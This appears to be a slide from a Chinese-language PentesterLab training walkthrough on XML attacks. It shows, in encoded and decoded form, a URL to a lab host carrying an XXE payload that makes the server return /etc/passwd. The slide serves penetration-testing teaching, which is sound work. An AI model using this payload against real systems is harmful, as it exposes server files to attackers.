

# XML attacks Example 1 實戰
修改網址後的參數
http:// 192.168.43.212/xml/example1.php?xml=%3C%21DOCTYPE%20test%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2f%2f%2fetc%2fpasswd%22%3E%5D%3E%3Ctest%3E%26xxe%3B%3C%2ftest%3E
跳轉後會看到網址為
http:// 192.168.43.212/xml/example1.php?xml=<!DOCTYPE test [<!ENTITY xxe SYSTEM "file%3A%2f%2f%2fetc%2fpasswd">]><test>%26xxe%3B<%2ftest>
http://honglung.pixnet.net/blog/post/86029843-pentesterlab---xml-attacks